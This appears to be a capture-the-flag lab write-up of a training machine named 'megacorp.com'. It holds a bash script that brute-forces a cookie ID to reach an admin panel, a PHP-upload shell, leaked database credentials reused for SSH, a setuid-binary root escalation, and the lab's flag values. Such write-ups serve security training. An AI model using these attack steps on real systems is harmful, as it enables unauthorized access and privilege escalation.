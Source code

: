 public:: true
tags:: idor, rfi, setuid

- Virtual Host: `megacorp.com`
- Web browser cookie can be IDORed to escalate to the `admin` user within the website
	- Lets try to brute-force the `user` ID in the cookie via IDOR.
	  *Print successful IDs and every 100 attempts (to watch it progressing)*
	  ```bash
	  > for i in {10000..99999}; do
	  	if ! (($i % 100)); then
	      	echo "$i"
	      fi
	      if ! curl 2>/dev/null -L 'http://megacorp.com/cdn-cgi/login/admin.php?content=uploads' \
	                            -H "Cookie: user=$i; role=admin" | \
	                            grep >/dev/null "Log in"; then
	      	echo "$i <- Admin"
	      fi
	  done
	  
	  [...]
	  34300
	  34322 <- Admin
	  34400
	  [...]
	  ```
- **User flag** at `/home/robert/user.txt`
	- f2c74ee8db7983851ab2a96a44eb7981
	  background-color:: green
- From the admin panel we can upload a php file (RFI) and get a shell as the user `www-data`.
- Looking at the `db.php` file we can retrieve the username and password to access the mysql db
	- ```php
	  $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
	  ```
	  #+BEGIN_CAUTION
	  `robert:M3g4C0rpUs3r!`
	  #+END_CAUTION
- #+BEGIN_TIP
  The user `robert` reuses the same password of his OS user.
  #+END_TIP
	- Since SSH is accessible lets use it to get a shell as user `robert`.
	  We successfully escalated from `www-data` to `robert`.
	- `robert` is part of the `bugtracker` group
		- We found a setuid binary which belong to such a group
		  ```bash
		  -rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
		  ```
			- It's a buggy binary and let us execute whatever command we want.
- **Root flag** at `/root/root.txt`
	- af13b0bee69f8a877c3faf667f7beacf
	  background-color:: green